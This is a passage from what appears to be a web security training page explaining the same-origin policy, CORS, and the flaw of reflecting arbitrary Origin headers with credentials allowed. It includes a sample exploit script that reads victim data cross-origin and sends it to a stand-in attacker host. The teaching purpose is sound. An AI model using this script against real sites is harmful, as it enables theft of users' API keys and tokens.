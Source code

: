 1. [View all CORS labs](/web-security/all-labs#cross-origin-resource-sharing-cors)  
  
## Same-origin policy  
  
The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.   
  
#### Read more

1. [Same-origin policy](/web-security/cors/same-origin-policy)  
  
## Relaxation of the same-origin policy  
  
The same-origin policy is very restrictive and consequently various approaches have been devised to circumvent the constraints. Many websites interact with subdomains or third-party sites in a way that requires full cross-origin access. A controlled relaxation of the same-origin policy is possible using cross-origin resource sharing (CORS).   
The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted. These are combined in a header exchange between a browser and the cross-origin web site that it is trying to access.   
  
#### Read more

1. [CORS and the Access-Control-Allow-Origin response header](/web-security/cors/access-control-allow-origin)  
  
## Vulnerabilities arising from CORS configuration issues  
  
Many modern websites use CORS to allow access from subdomains and trusted third parties. Their implementation of CORS may contain mistakes or be overly lenient to ensure that everything works, and this can result in exploitable vulnerabilities.   
  
### Server-generated ACAO header from client-specified Origin header  
  
Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.   
One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:   
`GET /sensitive-victim-data HTTP/1.1 Host: vulnerable-website.com Origin: https://malicious-website.com Cookie: sessionid=...`  
It then responds with:   
`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://malicious-website.com Access-Control-Allow-Credentials: true ...`  
These headers state that access is allowed from the requesting domain (`malicious-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.   
Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:   
`var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='//malicious-website.com/log?key='+this.responseText; };`  
LAB  
APPRENTICE [CORS vulnerability with basic origin reflection](/web-security/cors/lab-basic-origin-reflection-attack)  
  